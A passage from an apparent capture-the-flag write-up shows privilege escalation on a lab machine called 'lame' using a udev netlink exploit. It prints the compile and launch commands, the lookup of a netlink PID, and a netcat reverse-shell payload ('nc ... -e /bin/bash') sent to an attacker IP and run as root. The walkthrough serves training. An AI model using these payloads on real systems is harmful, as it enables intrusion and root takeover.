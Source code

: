 Now I have to compile it and read the usage instructions:

{{< highlight html >}}
daemon@lame:/tmp$ gcc exploit.c -o exploit
gcc exploit.c -o exploit
{{< /highlight >}}

Instructions:

 > Pass the PID of the udevd netlink socket (listed in /proc/net/netlink,
 usually is the udevd PID minus 1) as argv[1].
 The exploit will execute /tmp/run as root so throw whatever payload you
 want in there.

 So, for the exploit to work I have to find the PID of the **udevd netlink socket** and place any payload I want under **/tmp/run** and it will be executed as root!

 To find the PID:
{{< highlight html >}}
daemon@lame:/tmp$ cat /proc/net/netlink
cat /proc/net/netlink
sk       Eth Pid    Groups   Rmem     Wmem     Dump     Locks
ddf0c800 0   0      00000000 0        0        00000000 2
df7a1400 4   0      00000000 0        0        00000000 2
dd30b800 7   0      00000000 0        0        00000000 2
dd826600 9   0      00000000 0        0        00000000 2
dd82e400 10  0      00000000 0        0        00000000 2
ddf0cc00 15  0      00000000 0        0        00000000 2
dcc2ba00 15  2687   00000001 0        0        00000000 2
ddf15800 16  0      00000000 0        0        00000000 2
df5dc400 18  0      00000000 0        0        00000000 2
{{< /highlight>}}

I create a reverse shell in a file called *run* under /tmp:

{{< highlight html >}}
daemon@lame:/tmp$ echo '#!/bin/bash' > run
echo '#!/bin/bash' > run
daemon@lame:/tmp$ echo 'nc -nv 10.10.14.18 4446 -e /bin/bash' >> run
echo 'nc -nv 10.10.14.18 4446 -e /bin/bash' >> run
{{< /highlight>}}

Now, before launching the exploit, I have to set up a listener on my machine:

{{< highlight html >}}
nc -nlvp 4446
listening on [any] 4446 ...
{{< /highlight >}}

I launch the exploit:

{{< highlight html >}}
daemon@lame:/tmp$ ./exploit 2687
./exploit 2687
{{< /highlight >}}
